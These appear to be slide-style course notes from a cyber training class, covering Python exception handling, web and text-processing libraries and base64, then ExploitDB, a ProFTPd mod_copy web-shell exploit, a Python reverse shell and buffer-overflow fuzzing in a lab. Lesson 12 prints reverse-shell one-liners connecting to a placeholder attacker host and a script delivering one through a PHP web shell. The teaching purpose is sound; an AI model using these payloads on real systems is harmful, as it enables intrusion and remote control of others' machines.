




# CTE - Week 6

___

## Classroom Links

___

* [Teams](https://teams.microsoft.com/l/team/19%3a7a166f374eb44c89bb972a20cf5a3d6e%40thread.tacv2/conversations?groupId=b0216bab-7ebb-498b-af22-3d7c8db2d92f&tenantId=37247798-f42c-42fd-8a37-d49c7128d36b)  
* [CLME](https://learn.dcita.edu/)
* [CTE_TTPs_Lab_Manual_CTA_1901](.\Files\CTE_TTPs_Lab_Manual_CTA_1901.pdf)

___

## Lesson - Module 2 — Lesson 11: Python Modules

### Lesson 11 Overview

* In this lesson we will discuss
  * Exception Handling
  * Standard Libraries Tour
    * urllib / requests
    * re / BeautifulSoup
    * base64

### Error Handling

* Tidying previous code...
  * The last Python script you wrote would connect to a FTP server.
  * What if the server is down, or cannot be reached?  
  
  * Before we move forward, our script needs a means of **error handling**
* Enter Exceptions:
  * Python error handling uses keywords **try, except, raise, & finally**
  * You handle errors (or **exceptions**) by "**try**-ing" to do something:  
  
  * And that could go smoothly, "**except**" when something goes wrong!
* Be warned!
  * Using a general except statement, any error that occurs will trigger it!  
  
  * Here, even if the server were up, we have an accidental ***attribute error***
* Syntax errors will not be caught
  * However, even with a general **except** statement, syntax errors will show.  
  
  * This will error out and the scritp will ***NOT*** exit gracefully, as before
* Be specific with your exceptions!
  * To avoid catching **any** kind of error, provide a **specific** error type.  
  
* But there are still other errors...
  * What if you need to handle **more than just one** kind of error?  
  
  * In this case, perhaps the server cannot be reached because it is not at all within its range...
* You can handle multiple exceptions easily!
  * To handle these errors the same way, use a **tuple** with **except**.  
  
  * The only remaining case is handling different exceptions in different ways.
* You can be distinct in how multiple errors are handled.  
  
  * To handle multiple errors differently, just add more **except** code blocks.
* And you can generalize these caught exceptions.
  * Any **except** statement can keep track of the exception **object** it caught.
  * So if you want to see the real error message that Python would originally give you, but still gracefully catch the error, you can use this syntax:  
  
* Better visibility on errors and cleaner code
  * The **error** object (or whatever you decide to call it) inherits properties from, at minimum, the Python **BaseException**.
  * That allows you to see the **args** property, which is a **tuple**, like so:
    * **args[0]** = error number
    * **argg[1]** = error message
    
* The other keywords for exception handling: finally

    ```Python
    with socket . socket() as s: 
        try :
        # Connect to the server...
        s.connect (('192.168.229.105',21))
    except (ConnectionRefusedError, OSError) as  error:
        # There was an error! Tell the user.
        print("[!] FAILED to connect with error below: "
        print (error .args)
    finally:
        # Regardless what happens, do this "on the way out " 
        print("The program will continue from here!
    ```

  * The **finally** statement will run after a **try/except** segment, regardless of whether or not an exception has been handled.
* The other keywords for exception handling: raise
  * The raise statement will force a specified error to occur.  
  
  * This is most commonly used when you are writing your own module or classes and are preparing for potential errors that other programmers  might run into.
* Exception Handling Best Practices:
  * Minimize your try blocks.
  * Specify what you are wanting to catch with your except blocks
  * Generalize multiple errors by keeping track of the Exception objects.
  * Test your inputs to see what other exceptions your code should handle.
* Documentation on Exception Handling:
  * For more detailed functionality and syntax examples, view the Python tutorial on Errors and Exceptions: `https://docs.python.org/3/tutorial/errors.html`
  * For other use cases and specific types of exceptions, view the Python documentation on Built-in Exceptions:
`https://docs.python.org/3/library/exceptions.html`

### urllib Module

* socket module reminders:
  * Handle socket objects "with" a context manager.
  * Input and output is simply **send()** and **recv()**
  * Data is transferred in Python **bytes** objects.
* The urilib Module:
  * You have automated the process of working with a network socket.
  * This could be used to connect to port 80.
  * But Python can do better: one of the standard libraries is **urllib**
* urllib: Interacting with the Internet
  * `urllib` — URL handling modules
  * Source code: `Lib/urllib/`
  * `urllib` is a package that collects several modules for working with URLs:
    * `urllib.request` for opening and reading URLs
    * `urllib.error` containing the exceptions raised by `urllib.request`
    * `urllib.parse` for parsing URLs
    * `urllib.robotparser` for parsing robots.txt files
* Reading web pages with urllib.request
  * The `urllib.request` module defines functions and classes which help in opening URLs (mostly HTTP) in a complex world — basic and digest authentication, redirections, cookies and more.
  * `urllib.request.urlopen(url, data=None, [timeout,]*, cafile=None, capath=None, cadefault=False, context=None)`
  * Open the URL url, which can be either a string or a `Request` object.
    * Source: `https://docs.python.org/3.l/library/urllib.request.html`
  * Open web pages by using the **urllib.request.urlopen()** function
* Typically you supply a URL as a string:  

  * This returns a file-like object, so you will have to **.read()** the contents
* You can use a context manager!  

  * The response object has plenty of other properties... see documentation!
* By default, you are sending HTTP GET requests.
  * GET is the most common HTTP method, used for retrieving data.
  * To send variables and data in the request with a GET method, you supply them as part of the URL, denoted by a question mark.
  * Data is supplied in the form variable-value, joined by an ampersand.  
  
* urllib offers functionality to easily put data in that form.
  * The urllib submodule, `urllib.parse` offers a convenient function.
  * `urllib.parse.urlencode()` takes a dictionary as an argument, and will convert it into the HTTP variable form.  
  
* And urlencode() will encode special characters.
  * Appropriately given the name, the `urlencode()` function will also properly handle special characters passed into a URL.  
  
* You need to parse your data to make a POST request.
  * To submit data (like filling out a form), you usually make a POST request.
  * This is where the parsing functions come in handy.
  * The data is passed as an argument must be encoded (**as bytes!**)  
  
* urllib Resources and Reading Material
  * There is much more that the urllib module can do. We only touched upon the basics.
  * For more details, examples, and use cases, look at the official documentation.

`https://docs.pvthon.orq/3/librarv/ur//ib.request.html#module-urllib.request`

* You will have plenty of opportunity to work with urllib in the exercise.

## requests module

* To avoid a lot of the overhead...
  * The urllib module needed prep-work to be done for making requests.
  * A great alternative, that is now seamlessly available to Python 3, is the ***requests*** module.
  * requests turns HTTP methods into their own Python methods:
    * HTTP GET - requests.get("http://example.com")
    * HTTP POST - requests.post("http://example.com")
    * and so on
* Requests returns response objects in a simpler way.  

  * The `requests` module typically makes for much less code.
* Supplying and accessing data is much faster.
  * If you didn't want to bother putting GET parameters in the right form, the requests module can handle it passed as just a dictionary.  
  
  * HTTP headers are also returned as a ditionary for easy accesss
* This is just as easy with POST data.
  * You can do the same thing with an HTTP POST method.  
  
  * You should only POST data to pages supporting that method.
* The requests module can do much more.
  * File upload:
    * `requests. post(url, files = {"filename" : open( "filename"`
  * Decode JSON data:
    * `requests . get(url); print(r.json())`
  * Handle timeouts:
    * `requests.get(url, timeout`
  * Send custom headers or cookies:
    * `r = requests.get(url, headers = h dict, cookies = c_dict)`
  * Basic HTTP authentiction:
    * `requests. get(url, auth = ("username", "password"))`
  * Different HTTP methods:
    * `requests.put(url)`; `requests.patch(url)`; `requests.head(url)`
  * Monitor redirections:
    * `requests.get(url)`; `print(r.history)`
  * Handle sessions and cookies:
    * `requests.Session()`; `s.get(url)`; `print (s. cookies)`
* Cookies can be stored as part of a Session:
  * HTTP cookies can be passed along with a request (last slide). ..
  * Or they can be modified relative to the "Session" they belong to.  
  
* requests Resources and Reading Material
  * The requests module has a very simple syntax and a lot of functionality.
  * For more details, examples, and use cases, look at the official documentation.

  `http://docs.python-requests.org/en/master/`
  `http://docs.pythonrequests.org/en/master/user/quickstart/`  

  * You will have plenty of opportunity to work with requests in the exercise.

## re (REGEX) Module

* So how do you process data you might get from a site?
  * If you are have a very large string, you likely want to carve things out of it.
  * You can muddle around with the `string.split()` syntax and slicing...
  * But this is often inefficient, and Python can do better.
  * Thankfully, there are modules to help with **text processing**!
* Have you heard of regular expressions?
  * Regular Expressions, or "regek' are strings of text that define a pattern that is used by algorithms to search for text, often used for "find & replace" or input validation.
  * Typically, they look like gibberish.
  * Each character has a special meaning  
  
* Python has a built-in re module to work with these.  

  * There are a lot of ways to find a match with re. This is only one example.
* Regular Expression Crash Course
  * As a rule, Regex patterns look at each character literally.
  * ***With the EXCEPTION*** of the special characters defined in these tables

Character | Meaning | ex. Pattern | ex. Match
--- | --- | --- | ---
\w | "Word character" (letters, digits, underscores) |  \w\w\w\w | _cT3
\W | **NOT** "word character" | \W\W\W | :-)
\d | Digits (0-9) | version \d.\d | version 2.0
\D | **NOT** digits | \D\D\D | A+B
\s | "Space characters" (tabs, newlines, vertical tab) | a\sb\sc | a b c
\S | **NOT** space characters | S\S\S\S\S\S | DC3CTA
. | Any character | ...... | e1e37!

* Regular Expression Crash Course (greedy)
  * These quantifiers are, by default, "greedy" (match as much as possible)
  * One of the most powerful regex is: **.+** (match any character as much as possible)

Character | Meaning | ex. Pattern | ex. Match
--- | --- | --- | ---
\+ | One or more repeats of the previous character| \w+ | long_w0rds
{3} | Three repeats of the previous character | \d{4} | 1337
{2,4} | Two to four repeats of the previous character | A{2,4} | AA or AAA
{3,} | At least three repeats of the previous character | \W{3,} | AAA
\* | Zero or more repeats of the previous character | A\*B\*C | AACCCC  
? | The previous character once or more (optional) | plurals? | plural
? | Makes quantifiers "lazy" (as little as possible) | hello{3,8}? | hellooo

* Regular Expression Crash Course (Anchors)
  * Captured groups let you select a portion of your pattern match.
  * All these special characters and control make regex very powerful.

Anchor | Meaning | ex. Pattern | ex. Match
--- | --- | --- | ---
^ | Positioned at the start of the string/line.|  | line start
$ | Positioned at the end of the string/line. | . *end$ | line end
[...] | Grouping, one of the characters in the braces |  D[ou] | Dog or Dug
[^...] | One of the characters **NOT** in the braces group | D[^ou]g | Dig
(...) | )Captured grouping, a substring to extract | \<b>(.*)\</b> | bolded text
\| | OR operator in captured groups | (this that) | that
\1 | Contents of captured group #1 | 1TA | DC3CTA

* The re module breaks down into two concepts:
  * Python uses two high-level objects to handle regular expressions:
    * Regex Objects
      * Considered "compiled" patterns, that offer functions to perform operations like search, split and substitute on given text.
      * `regex = re. compile("<b>(.*?)</b>`
    * Match Objects
      * Returned from function calls on regex objects, with properties regarding the matched text like start and end positions.
      * `match regex.match("<b>DC3CTA</b>")`
  * The module also offers convenience functions that do the same the operations as Regex objects, but without "compiling" a pattern.
* Difference in "search ( )" versus "match ( )
  * It is important to know the difference between the search() and match() operations, because you might accidentally trip up:
    * `search()` will look for the first location that matches the given pattern.
    * `match()` will look to see if the beginning of the string matches the given pattern
  * More often than not, you likely want to use the search() function!
* Greedy matching versus lazy matching:  

  * Say we had an HTML anchor tag and we wanted to extract the URL. There is the potential to match too much using the default greedy search.
* Often times you will want more than just the first match.
  * To retrieve more than just one result, use
methods like `findall()` or `finditer()`
  * These will return only strings representing the match (not a Match object!) packaged inside of a list.  
  
* You can also supply "flags" to tweak even more settings...
  * As an optional keyword argument to most every Regex operation method, you can use flags (constants in the re module) to change the pattern:
  * `re.ASCII` - make **\w, \d, \s** and their variants match only ASCII.
  * `re.MULTILINE` - ensure characters like **^** and **$** match line anchors.
  * `re.DOTALL` force the **.** to match all characters (including newlines)
  * `re.IGNORECASE` - Perform case-insensitive matching.
* re Resources and Reading Material
  * Regular Expressions are extremely versatile and they are used in so many other applications and programming languages!
  * To practice and experiment with more regex, check out: `https://regexr.com/` or `https://gchq.github.io/CyberChef/`
  * For more details, examples, and use cases for the re module, look at the official documentation: `https://docs.python.org/3/library/re.html`

## BeautifulSoup Module

* Use BeautifulSoup for web scraping:
  * The purpose of text processing so far has been strictly web processing... but Regular Expressions are general-purpose and can do so much more!
  * A more tailored library specifically to do web scraping is **bs4**.
  * **bs4** is accessible in Python3. It will take an HTML document and turn it into a tree of Pythonic objects that you can navigate through and manipulate.
* BeautifulSoup lets you extract data through objects.
  * The module will parse through HTML
and offer access to each element and attribute.
  * The most high-level object is the 'BeautifulSoup", and you can drill down from there  
  
* It breaks down into four conceptual objects:
  * The module uses...
    1. A Beautiful Soup object, as the top-level tree
    2. A Tag object, as an HTML tag in the original document
    3. A NavigableString, as a bit of text within a tag.
    4. A Comment, as a special errata of a NavigableString.  

* BeautifulSoup is handy for finding multiple elements:
  * You can access element (**Tag**) attributes by treating it like a dictionary.
  * This example finds links just as we did with Regex, but is more readable:  
  
* Bearutiful Soup Resources and Reading Material
  * We will not go into depth on BeautifulSoup, but you should be aware of its existence as an alternative to web scraping with Regular Expressions
  * For more details, examples, and use cases for the BeautifulSoup Module, look at the official documentation

  `https://www.crummy.com/software/BeautifulSoup/bs4/doc`

  * This may come in handy if you choose this route for the exercise

## base64 Module

* Often times, cyber threats mask themselves:
  * When an attacker or an adversary wants to hide their payload, they will **obfuscate** their code, or the data that they are working with.
  * This can be done in many ways, and some methods offer a stronger means of "protection" in how sophisticated the obfuscation is.
  * Typically this is done to avoid signature detection, or even just to add layers of complexity so defenders are less likely to find the real payload.
* One very common method is simple data encoding.
  * While it is a very weak form of obfuscation, it is certainly the most common: **just encoding data into another form or representation.**
  * This is trivial because the only thing necessary to **de-obfuscate** is to decode the encoded data. Surprisingly, this is extremely prevalent.
A very predictable method is Base64.
  * **Base64** is a binary-to-text encoding scheme that represents data in an ASCII string, using only printable characters, like letters and numbers.
  * It is a form of encoding. For every one string of data decoded, there exists only one string encode and vice versa  
  
* Base64 is very recognizable:
  * As a rule, Base64 encoding must have a length as a multiple of four.
  * If an encoding **does not** have a length as a multiple of four, it adds **up to two** trailing equals signs (z) as padding.  
  
* Python has a built-in library for it:
  * The base64 module in Python has two
simple functions: b64encode() and b64decode()
  * Python 3 requires the arguments be passed as bytes, so you can prepend your string with a "b" or use the bytes() function.  
  
* Base64 is just a number base, like any other:
  * You know base 10 (decimal), base 2 (binary), and base 16 (hexadecimal).
  * They are all just another way to represent the same data. Just as there is Base64, you could also find Base32 or even Base85/Ascii85:
    * Base32 - Uses only uppercase letters and the numbers 2-7. Pads with equal signs to a length as a multiple 8.
      * `base64.b32encode(b"DC3CTA")`
        * `b'IRBTGQ2UIE======'`
    * Base85/Ascii85 - Uses letters, numbers, and punctuation characters. Easily recognizable by a wide use of random punctuation
      * `base64.b85encode(b"Many characters")`
        * b'O<`_%AY*7@a$#e1WpZ-'
* base64 module Resources and Reading Material
  * Base64 and its variants are not conceptually hard to grasp...
  * The priority is instead learning to recognize and identify it when you see it.
  * For more details, examples, and use cases for the base64 module, look at the official documentation.  

  `https://docs.python.org/3.4/1ibrary/base64.html`
  
  * You will have plenty of opportunity to work with base64 in the exercise.

### Lesson 11 Summary

* In this lesson we will discuss
  * Exception Handling
  * Standard Libraries Tour
    * urllib / requests
    * re / BeautifulSoup
    * base64

___

## Lesson - Module 2 — Lesson 12: Python and ExploitDB

___

### Lesson 12 Overview

* In this lesson we will discuss:
  * ExploitDB introduction
  * searchsploit
  * Python reverse shell
  * Exploitation, callback & privilege escalation exercise

### ExploitDB introduction

* Returning to the Metasploit Framework
  * `msfconsole` provides a rudimentary way to search for exploits.
  * This is command-line based, and limited to only Metasploit modules.  

* What if you could search for any general exploit code?
  * There are a handful of POC (Proof-of-Concept) exploit scripts available
  * But not all of them are strictly Metasploit modules.
  * As CTE, we need to be able to find previous exploits or vulnerabilities.
  * Wouldn't it be handy to have a database of well-documented exploits?
* Introduction to ExploitDB
  * [Exploit DB](https://exploit-db.com) maintains up-to-date and current records of known vulnerabilities and attack scripts.
  * The project is owned and maintained by Offensive Security.
  * Their website allows you to search by
    * Type (Denial of Service, remote or local exploit, etc.)
    * Platform (Windows, Linux, Mobile, etc.)
    * Service Port
    * "Tag" (code injection, buffer overflow, cross-site scripting, etc.)  

  

* This is why enumeration is so important.
  * The software name and version number acquired during enumeration will help with finding an old vulnerability or exploit.
  * You won't be crafting any zero-days.
  * But old, unpatched or misconfigured software is certainly prevalent today.
* Search whatever information you have on a target.
  * The version number helps narrow down results and potential exploits.  

* Some entries might just be explanations  

* ...but most include exploit code!
  * You won't *always* see Python used for exploit scripts.
  * But, because it is so ubiquitous and so powerful, it is common.
  * This script uses Python 2.
  * Your mileage may vary with these exploit scripts..
  * **They may not always work!**  

* You may find Metasploit modules as well:
  * As you know, Metasploit is written in **Ruby**.
  * You can read the code to better understand how the module works.
  * These are often more reliable than other scripts.
  * **but sometimes you are not allowed to use Metasploit!**

* Multiple results and findings are not a bad thing!
  * We've seen **three** different results for one service and potential exploit.
  * This helps us determine possible avenues for attacking a vulnerability.
  * You can use all of the different resources to determine what works best
* ExploitDB Resources
  * The exploit database maintains code to take advantage of vulnerabilities so you don't have to.
  * To stay on top of the latest exploits that are released daily, keep tabs on their Twitter account.  
`https://twitter.com/ExploitDB`
  * Additional resources can be found within the original ExploitDB and Offensive Security websites.  
`https://www.exploit-db.com/`
`https://www.offensive-security.com/`

### searchsploit

* What if your assessment has no Internet access?
  * ExploitDB also offers a command-line utility to search their database.
  * You can take a copy of ExploitDB with you wherever you go!
  * The tool lets you perform offline searches on a local copy of the repository.
  * If you are running the standard Kali Linux build, it is available by default!
* Introducing *searchsploit*  

* *searchsploit* is very intuitive:
  * You can use any number of search terms.
  * By default, search terms are ***not case-sensitive*** & order does not matter.
  * Remember the biggest advantage is that you can use this utility from the command-line and offline without internet.
* The tool offers a local path for exploits:
  * Searching for the same banner information yields the same results, **as expected!**  
  
* Let's "mirror" an exploit...
  * "Mirroring" copies of file to our current working directory.
  * The we can more easily work worh it or modify it  

* Understanding this Exploit
  * In the example, we copied the Python 2 script.
  * Notice:  
    * No shebang line!
    * Defining variables based off command-line arguments.
    * Using PHP syntax to create a primitive web shell.  

  
  * The use of site cpfr and site cpto allow copying files.
  * The script copies a web shell into an accessible directory!
  * Unfortunately:
    * Numerous spelling errors.
    * No exception handling.
    * No command results shown.
      * **This is bad code!*

  
* Remember: this is another person's code!
  * The script might not even work!  

  * It hangs for a long period of time...
* This is why we need to be able to understand the exploit.
  * ... And eventually fails  
  
* The gist of the exploit:
  * The **mod_copy** plugin for this version of ProFTPd allows commands **site cpfr** and **site cpto**, which can be used to copy files.
  * It is possible to copy data *from our input* (`/proc/se1f/fd/3` as attempted) to a file that can be accessed on the website.
  * Because there is a web server with PHP running, and we can supply arbitrary PHP, we can achieve **Remote Code Execution!**
* So why didn't that exploit script work?
  * We can connect to the service manually and try to run those commands.  

  * During testing, we receive a **Permission denied** error!
  * Could this exploit be done in any other way?
* Analyze the Metasploit module  

* Important Variables  

  * Because this operates as a module, it works with (and provides a short description for) some special variables.
  * Remember: this is the **Ruby** programming language.  


  

* This code puts PHP code followitn the */tmp* directory on the command-line  


* Finally executing commands:  

  * The command is included as an HTTP GET variable & executed with PHP!
* The difference between the Ruby script and the Python 2 script for exploiting ProFTPd:
  * Copies *from* `/proc/self/cmdline...`
    * This includes **the filenames** used in the mod_copy operation.
  * ... To a fake file, `/tmp/<?php passthrou($_GET["cmd"]) ?>`
    * Notice this is in **/tmp**, a *world-writable* directory!
    * No more Permission Denied error.
  * The PHP code present in the filename is now *in* the file!
  * We can now copy that file to the folder accessible to the website.
* Let's see that manually as well:  
  * Trying these commands yields much better results.  
 
  * Now we can view anything .php on the website and see the whoami output
* We can verify the results:
  * As before, we can access the site with Python and the requests module.  
  
  * See how the full command is visible?
  * The result of whoami just follows after "=/tmp", like the PHP code did
    * The output of the whoami command is **www-data**!
* Now we understand how the exploit works.
  * We've seen a Python script do it *wrong*, and a Metasploit module do it *right*
  * Why not write a Python 3 script, that incorporates all the best parts?
  * Correct inputs, communicative output, exception handling...
  * The command & control should be as flexible and easy as possible.  

### Python reverse shell

* Leverage an exploit to get a **reverse shell**!
  * The best form of control is a reverse shell:
  * Since you have a form of **Remote Code Execution (RCE)**, you can have the victim machine connect back to you.
  * With a reverse shell, you interact with a command-line **actively on the box**.
  * This can be accomplished with many different languages.  
  * [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* In Python, this is accomplished with two modules
  * You have connected with a remote host with the **socket** module before...
  * And you have heard of the **os** module!
  * For a Python reverse shell:
  
* Basic source code for a Python reverse shell:  

  * Remember, you connect back to your **attacker machine**.
  * Duplicating the file descriptors, 0, 1, and & 2 make the connection interactive.
* Often times this is minified.
  * On cheatsheets you will see this compressed to just one long line.  

    ```python
    python -c 'import os, socket; s=socket.socket(); s.connect(("YOUR.HOST.IP.ADDRESS",9001)); os.dup2(s.fi1eno(), 0); os.dup2(s.fi1eno(), 1); os.dup2(s.fi1eno(), 2); os.system("/bin/sh")'
    ```

  * This is so you can easily copy and paste it in your RCE vector!
  * Remember, you'll need to *set up a listener* to catch the reverse shell.  
  
* Execute this with the RCE attack vector:
  * This payload has a lot of special characters...
  * It is best to send it thorugh the HTTP GET variable passed to PHP

    ```python
    #!/usr/bin/env python3

    import socket, requests

    # Create a socket object and connect to FTP service
    # With the socket object, send CPFR and CPTO commands to create a PHP webshell.  
    # # Have the webshell read from a GET variable, and send along your reverse shell!

    requests .get("http://192.168.229.le5/rce.php?c=python -c 'import os, socket; s=socket.socket(); s.connect(("YOUR.ATTACKR.IP.ADDRESS",9001)); os.dup2(s.fi1eno(), 0); os.dup2(s.fi1eno(), 1); os.dup2(s.fi1eno(),2); os.system(\"/bin/sh\")'")
    ```  

* You will see the server connect back!
  * If you use the -v verbose flag on your listener, you will see the connection.  

  * There won't be a "visible" prompt, but you do have a shell!
* Now, commands can be entered in an interactive way  

* Some drawbacks:
  * Our reverse shell was set to run `/bin/sh` ...why not use `/bin/bash`?
  * This shell is not very "stable:"
    * Control characters (like ^C to stop a program) could kill the connection.
    * Moving the cursor with left-and-right arrows produces escape
sequences.
    * No Tab auto-completion functionality.
    * No visible prompt
* A quick magic trick helps fix these issues:

* Command and control on the victim machine!
  * You have flexible remote code execution.
  * **Now what?**


### Exploitation, callback & privilege escalation exercise

* Privilege Escalation can be done in many, many ways.
  * Outlets for privilege escalation will be visited in future iterations of this course.
  * You could use another exploit, take advantage of different services, abuse some misconfiguration . the list goes on.
  * If you are interested, explore these resources to get a better idea of what to do next once you have a shell on a remote machine.  
    * `https://github.com/rebootuser/LinEnum`  
    * `https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/`

### Lesson 12 Summary

* In this lesson we have discussed:
  * ExploitDB introduction
  * searchsploit
  * Python reverse shell
  * Exploitation, callback & privilege escalation exercise

___

## Lesson - Module 2 — Lesson 1 3: Fuzzing

### Lesson 13 Overview

* In this lesson we will discuss:
  * Overflowing buffers
    * Manually
    * Simple Python scripts
    * Fuzzers
  * Developing your own fuzzer
    * Create your own simple network fuzzer with Python
    * Improve functionality and flexibility of your fuzzer
  * Preparing to conduct buffer overflow exploits

### Overflowing buffers

* What is Fuzzing
  * Automated testing
  * "using malformed/semimalformed data injection"
  * "random bad data"
  * "see what breaks"  

  

* Fuzzing Goals
  * Make stuff fall over...
    * Systematically providing inputs with the goal of making bad things happen
    * Looking for bad things:
    * Crashes
    * Hanging
    * "Use-after-free" discovery
    * Memory leaks
    * Unexpected behavior
* Why Fuzz?
  * Black box testing
    * Finds bugs in applications when you don't have the source code
    * Most fuzzing is done in black box testing, but...
  * White box testing
    * Find bugs faster than just doing code review, cast wider net
  * Automation
    * Many aspects of fuzzing can be fully automated, freeing developers and analysts to focus on other aspects of the program/system
* Basic Fuzzing Vectors
  * Various attack vectors:
    * Text/characters
    * Numbers
    * Binary data
    * Metadata
* Basic Fuzzing Vectors — Improved
  * Known dangerous vectors:
    * Integers: zero, negative numbers, and very large numbers
    * Characters (chars): Escaped characters, interpretable (injection like attacks), odd symbols (É S?), or simply a large amount of characters
    * Binary: random ones
* OWASP Fuzz Vectors
  * Recursive vs Replacive
    * Recursive
      * Sharing a trait with brute force, recursive fuzzing involves iterating through all possible combinationsof a valid character or alphabet
      * e.g. Input: aaaa, Input: bbbb, Input: cccc, etc.
    * Replacive
      * Fuzzing by replacing a known input with new data. This new data could be pseudo random or it could be known attack vectors.
      * e.g. SQL injection, LDAP injection, etc.
* Fuzzing Categroies  

* Generation Fuzzing
  * "Intelligent" or "smart" fuzzing
  * Generates input from scratch
  * Generates input based on user provided instructions
  * Knowledge of the system/application/protocol
* Mutation Fuzzing
  * "Dumb fuzzers"
  * Modifies existing (real) input
  * Utilizes a corpus of seed input
  * i.e. If the application inputs text, provide a large amount of valid text. If the application analyzes images, provide a library of valid images.
* Other Types of Fuzzers


### Manually

* Catching the Results
  * Simply fuzzing isn't enough on its own, we need to monitor the  u Its :
    * Monitor for exceptions
      * One of the most common results from fuzzing are crashes and other exceptions
  * Utilize debuggers
    * Can hook a process and help pinpoint where an exception occurred
  * Monitor responses
    * Various methods ranging from watching the screen to advanced scripts and even hardware devices
* Let's find a buffer overflow: Initial Setup
  * Open your Lesson 13 environment which will include:
    * Windows 7
    * Kali Linux
  * Take note of the IP address for each
  * Ping each machine from the other to verify connectivity and firewall status
    * This is a network based example, so firewalls need to be off.
* Important Files and Directories
  * On Windows 7 we will be working with a program called "Character Server" and debuggers, specifically Immunity (Optionally OllyDbg)  

* "Character Server"
  * **SCENARIO**: You've discovered that your target is using a piece of software called "Character Server." You have obtained a copy of the executables and DLL's but not the source code. You are not able to identify any open source information about this application, its uses, or its vulnerabilities.
  * **TASK**: Identify vulnerabilities through simple fuzzing.
* What type of file is this anyways?
  * Character Server is made up of 1 EXE file and 2 DLL files according to the directory. But it is often prudent to check the header info to be sure,  

* Setting up something to fuzz
  * character server.exe:
  * PE32 executable (console) Intel 80386, for MS Windows
* Running the server to be tested
  * Because it is a Windows console program, let's run it on our Windows box  

* Determining server network behavior
  * Looks like the server is listening for connections on the network, let's see what port it is using.  

* What's happening on that port?
  * Various tools to help you interrogate an open port
    * Nmap
    * Amap
    * Netcat
    * Many more...  

  
* Digging deeper with Amap
  * Amap is an Application MAPper
  * Deeper dive than some other tools  


* Let's connect and find more
  * Using netcat we can establish a raw connection to this port/service  
  
  * Pretty obvious here isn't it? Type HELP  
  
* It accepts input
  * Seems at least one of these commands accepts text input:  

* Can we overflow the buffer?
  * Let's throw some characters in there and see...  
  
  * Let's check the server and see if we have any errors. Nope, let's try more...  
  
  * Okay, this is going to take a while.

### Simple Python scripts

* Python to the rescue
  * We have the option of typing "random" characters for days, but let's use Python to automate the task for us.  

  
* Does it work?
  * Let's run it against the application and see if anything falls over.

* We can definitely do it this time
  * Let's increase the buffer size slightly.  

* It fell over
  * Looks like 100 million A's will work  

* Catching the results, a better way
  * We've seen a crash in Windows, now let's try a debugger (Immunity)
  * Multiple ways to hook a process
  * Drag and drop executable onto debugger icon
  * Open debugger, then File > Open
  * Open debugger, launch application, then File > Attach
* Attaching or opening the process
  * We decided to open the executable in Immunity with File > Open  

* Now, let's try again with the debugger
  * Run the script again, and check the results in Immunity  

* Why'd we just do that?
  * Goal of fuzzing?
    * Make something fall over
  * Crashes are only the first step
  * Monitoring results is critical
  * What's next?
    * Turn crashes into exploits!

### Fuzzers

* An example of 3rd party fuzzer
  * Sometimes, it's just easier/faster to use a 3rd party tool.
  * SPIKE (one of those 3rd party fuzzers)
    * Well known, poorly documented
    * Scalable
    * Allows custom C programming
* SPIKE Commands
  * SPIKE provides a framework for customized fuzzing scripts and commands to execute them. Here are some of those commands:
    * generic_chunked
    * generic_send_tcp
